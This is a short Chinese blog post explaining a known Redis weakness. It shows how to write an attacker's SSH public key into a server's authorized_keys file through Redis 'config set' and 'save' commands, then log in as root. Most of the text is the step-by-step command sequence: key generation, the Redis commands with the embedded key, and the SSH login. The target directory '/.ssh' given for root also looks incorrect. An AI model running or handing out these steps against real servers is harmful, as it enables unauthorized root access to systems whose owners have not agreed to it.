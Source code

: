 ```yaml
---
title: 利用Redis写文件提权登陆linux的漏洞
date: 2019-06-13 20:36:26
tags: vulnerability
permalink: redis-vulnerability
keywords: redis, vulnerability, 漏洞
rId: MB-19061301
---
```


## 原理

利用redis的config命令修改rdb文件地址为ssh密钥文件，向redis中写入公共密钥，通过save命令手动刷新到rdb中，此时就可以用私钥登陆了

## 操作

在本地电脑中（linux为例）生成无密码的密钥

```
ssh-keygen -t rsa -P ''    # 后面直接回车
```

此时在~/.ssh/下生成两个文件`id_rsa`和`id_rsa.pub`，id_rsa是私钥，id_rsa_pub是公钥，公钥文件内容如下：

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf53Tg8bfLm8UQBFgm31YpMPuGDY3eWQ5GCiP4E7hdaSBvqSjeMjUOy5NWLg424BFWSFiKNF8oRBZpXtfhu+4AwgrwdSDJuKQtjJvrh7D+rnuxtzpGbqL/716S0e/+VHeh8PXnC+GPAMg72p7zDzHuYkvwkx/r6LSY9fspU25lHH4I9VrrxgPoS+BbU03i9LiGZFSTUSAljTJE3H5bPNpRPWlHlAZTxGXTYIGO+K2ZnUAg2+HtS246NONl6z1lVtxrS5G4yuiTeHJr+KWJD/DOiZ50EoYqbTHsjnTAM5MJTLHWH1jBIZ133OHW5RGmzyEuws6ge0Y6eGnxgwm2W09p uvince@DESKTOP-6JIM4T8
```



进入服务器的redis命令行，输入如下一系列命令(注意ssh-rsa内容前后要有回车符\n)：

```
config set dir /.ssh

config set dbfilename authorized_keys

set ssh-test "\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf53Tg8bfLm8UQBFgm31YpMPuGDY3eWQ5GCiP4E7hdaSBvqSjeMjUOy5NWLg424BFWSFiKNF8oRBZpXtfhu+4AwgrwdSDJuKQtjJvrh7D+rnuxtzpGbqL/716S0e/+VHeh8PXnC+GPAMg72p7zDzHuYkvwkx/r6LSY9fspU25lHH4I9VrrxgPoS+BbU03i9LiGZFSTUSAljTJE3H5bPNpRPWlHlAZTxGXTYIGO+K2ZnUAg2+HtS246NONl6z1lVtxrS5G4yuiTeHJr+KWJD/DOiZ50EoYqbTHsjnTAM5MJTLHWH1jBIZ133OHW5RGmzyEuws6ge0Y6eGnxgwm2W09p uvince@DESKTOP-6JIM4T8\n"

save
```

此时，就已经往authorized_keys文件中写入了公钥



本地电脑使用命令`ssh -i ~/.ssh/id_rsa root@10.0.2.100`能够登陆服务器，这里-i后面是私钥的路径



这里面，有几个限制，一个是redis写文件的权限要能够到达该目录。现在写入的是root用户中，所以redis需要以root用户启动。如果知道某台服务器上有哪个用户，就可以把config set dir /.ssh 改为 config set dir /home/username/.ssh 了，最好还是redis和那个用户是同一个用户，这时候用config set dir ~/.ssh